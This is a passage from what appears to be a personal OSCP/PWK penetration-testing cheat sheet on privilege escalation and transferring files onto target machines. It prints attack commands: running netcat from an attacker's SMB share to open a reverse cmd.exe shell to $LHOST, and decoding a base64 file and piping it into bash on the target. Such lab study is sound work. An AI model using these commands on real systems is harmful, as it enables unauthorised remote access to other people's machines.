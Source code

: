 > Note: If you run out of options for elevation to root, consider the fact that you may have to move laterally to another user first.

Again, kernel exploits should be a last resort for PWK privilege escalation. Identifying the kernel version with `uname` and tossing that into searchsploit should be helpful on that front, but be prepared to start struggling with all types of compiling issues! 💀

## File Transfers

There are many tools available for easy file transfers, but these are some of my favorites.

### Windows

For Windows, I almost exclusively run or copy from my SMB share. In some cases it works, in some it doesn’t. I always try commands in this order:

1. Impacket-smbserver

    `impacket-smbserver secure .
    # On target system - copy files
    copy \\$LHOST\secure\nc64.exe .`

    `

2. Impacket-smbserver (with SMBv2 support) Seems to work in some cases, if you get a “not subscriptable” error otherwise.

    `impacket-smbserver secure . -smb2support
    # On target system - spawn shell straight from share
    \\$LHOST\secure\nc64.exe $LHOST $LPORT -e cmd.exe`

    `

3. SMB Daemon Works most of the time, but is some hassle to set up and doesn’t give you NetNTLM hashes as a bonus.

    `service smbd start`

    `

### Linux

I usually use a simple HTTP server from python to `curl` or `wget` files on demand.

`python3 -m http.server 80 # Starts a web server in the current directory on port 80`

There are some nice alternatives in case this is not possible. Examples are base64-encoding and netcat.

`cat $FILENAME | base64 #copy output
# On target
echo -n "$BASE64FILE" | base64 -d | bash # run the file in bash`
